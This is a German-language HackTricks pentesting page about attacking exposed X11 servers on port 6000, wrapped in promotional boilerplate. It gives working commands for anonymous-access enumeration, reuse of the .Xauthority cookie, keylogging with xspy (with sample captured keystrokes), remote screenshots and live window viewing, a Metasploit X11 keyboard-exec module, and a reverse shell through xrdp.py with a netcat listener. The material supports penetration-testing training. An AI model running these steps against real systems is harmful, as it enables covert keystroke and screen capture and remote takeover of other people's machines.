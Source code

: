 # 6000 - Pentesting X11

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Treten Sie dem [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) Server bei, um mit erfahrenen Hackern und Bug-Bounty-Jägern zu kommunizieren!

**Hacking Einblicke**\
Engagieren Sie sich mit Inhalten, die in den Nervenkitzel und die Herausforderungen des Hackens eintauchen

**Echtzeit-Hack-Nachrichten**\
Bleiben Sie auf dem Laufenden über die schnelllebige Hacking-Welt durch Echtzeit-Nachrichten und Einblicke

**Neueste Ankündigungen**\
Bleiben Sie informiert über die neuesten Bug-Bounties und wichtige Plattform-Updates

**Treten Sie uns auf** [**Discord**](https://discord.com/invite/N3FrSbmwdy) bei und beginnen Sie noch heute mit den besten Hackern zusammenzuarbeiten!

## Grundinformationen

**X Window System** (X) ist ein vielseitiges Fenstersystem, das auf UNIX-basierten Betriebssystemen verbreitet ist. Es bietet einen Rahmen zur Erstellung grafischer **Benutzeroberflächen (GUIs)**, wobei einzelne Programme das Design der Benutzeroberfläche übernehmen. Diese Flexibilität ermöglicht vielfältige und anpassbare Erfahrungen innerhalb der X-Umgebung.

**Standardport:** 6000
```
PORT       STATE   SERVICE
6000/tcp   open    X11
```
## Enumeration

Überprüfen Sie auf **anonyme Verbindung:**
```bash
nmap -sV --script x11-access -p <PORT> <IP>
msf> use auxiliary/scanner/x11/open_x11
```
#### Lokale Aufzählung

Die Datei **`.Xauthority`** im Home-Verzeichnis des Benutzers wird **von** **X11 zur Autorisierung** **verwendet**. Von [**hier**](https://stackoverflow.com/a/37367518):
```bash
$ xxd ~/.Xauthority
00000000: 0100 0006 6d61 6e65 7063 0001 3000 124d  ............0..M
00000010: 4954 2d4d 4147 4943 2d43 4f4f 4b49 452d  IT-MAGIC-COOKIE-
00000020: 3100 108f 52b9 7ea8 f041 c49b 85d8 8f58  1...R.~..A.....X
00000030: 041d ef                                  ...
```
> MIT-magic-cookie-1: Generierung von 128 Bit Schlüssel (“Cookie”), Speicherung in \~/.Xauthority (oder wo die XAUTHORITY-Umgebungsvariable zeigt). Der Client sendet es unverschlüsselt an den Server! Der Server überprüft, ob er eine Kopie dieses “Cookies” hat, und wenn ja, wird die Verbindung erlaubt. Der Schlüssel wird von DMX generiert.

{% hint style="warning" %}
Um das **Cookie zu verwenden**, sollten Sie die Umgebungsvariable setzen: **`export XAUTHORITY=/path/to/.Xauthority`**
{% endhint %}

#### Lokale Aufzählungssitzung
```bash
$ w
23:50:48 up 1 day, 10:32,  1 user,  load average: 0.29, 6.48, 7.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
user     tty7     :0               13Oct23 76days 13:37   2.20s xfce4-session
```
Im Beispiel lief `localhost:0` mit xfce4-session.

## Verbindung Überprüfen
```bash
xdpyinfo -display <ip>:<display>
xwininfo -root -tree -display <IP>:<display> #Ex: xwininfo -root -tree -display 10.5.5.12:0
```
## Keyloggin

[xspy](http://tools.kali.org/sniffingspoofing/xspy) zum Abfangen der Tastatureingaben.

Sample Output:
```
xspy 10.9.xx.xx

opened 10.9.xx.xx:0 for snoopng
swaBackSpaceCaps_Lock josephtTabcBackSpaceShift_L workShift_L 2123
qsaminusKP_Down KP_Begin KP_Down KP_Left KP_Insert TabRightLeftRightDeletebTabDownnTabKP_End KP_Right KP_Up KP_Down KP_Up KP_Up TabmtminusdBackSpacewinTab
```
## Screenshots erfassen
```bash
xwd -root -screen -silent -display <TargetIP:0> > screenshot.xwd
convert screenshot.xwd screenshot.png
```
## Remote Desktop View

Weg von: [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)
```
./xrdp.py <IP:0>
```
Way from: [https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)

Zuerst müssen wir die ID des Fensters mit xwininfo finden.
```
xwininfo -root -display 10.9.xx.xx:0

xwininfo: Window id: 0x45 (the root window) (has no name)

Absolute upper-left X:  0
Absolute upper-left Y:  0
Relative upper-left X:  0
Relative upper-left Y:  0
Width: 1024
Height: 768
Depth: 16
Visual: 0x21
Visual Class: TrueColor
Border width: 0
Class: InputOutput
Colormap: 0x20 (installed)
Bit Gravity State: ForgetGravity
Window Gravity State: NorthWestGravity
Backing Store State: NotUseful
Save Under State: no
Map State: IsViewable
Override Redirect State: no
Corners:  +0+0  -0+0  -0-0  +0-0
-geometry 1024x768+0+0
```
**XWatchwin**

Für **Live-Ansicht** müssen wir verwenden
```bash
./xwatchwin [-v] [-u UpdateTime] DisplayName { -w windowID | WindowName } -w window Id is the one found on xwininfo
./xwatchwin 10.9.xx.xx:0 -w 0x45
```
## Shell erhalten
```
msf> use exploit/unix/x11/x11_keyboard_exec
```
**Reverse Shell:** Xrdp ermöglicht auch das Erstellen einer Reverse Shell über Netcat. Geben Sie den folgenden Befehl ein:
```bash
./xrdp.py \<IP:0> –no-disp
```
In der Benutzeroberfläche sehen Sie die **R-shell-Option**.

Starten Sie dann einen **Netcat-Listener** auf Ihrem lokalen System auf Port 5555.
```bash
nc -lvp 5555
```
Dann geben Sie Ihre IP-Adresse und den Port in die **R-Shell**-Option ein und klicken Sie auf **R-shell**, um eine Shell zu erhalten.

## Referenzen

* [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)
* [https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)
* [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

## Shodan

* `port:6000 x11`

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Treten Sie dem [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) Server bei, um mit erfahrenen Hackern und Bug-Bounty-Jägern zu kommunizieren!

**Hacking Einblicke**\
Engagieren Sie sich mit Inhalten, die in den Nervenkitzel und die Herausforderungen des Hackens eintauchen

**Echtzeit-Hack-Nachrichten**\
Bleiben Sie auf dem Laufenden über die schnelllebige Hack-Welt durch Echtzeit-Nachrichten und Einblicke

**Neueste Ankündigungen**\
Bleiben Sie informiert über die neuesten Bug-Bounties und wichtige Plattform-Updates

**Treten Sie uns bei** [**Discord**](https://discord.com/invite/N3FrSbmwdy) und beginnen Sie noch heute mit den besten Hackern zusammenzuarbeiten!

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
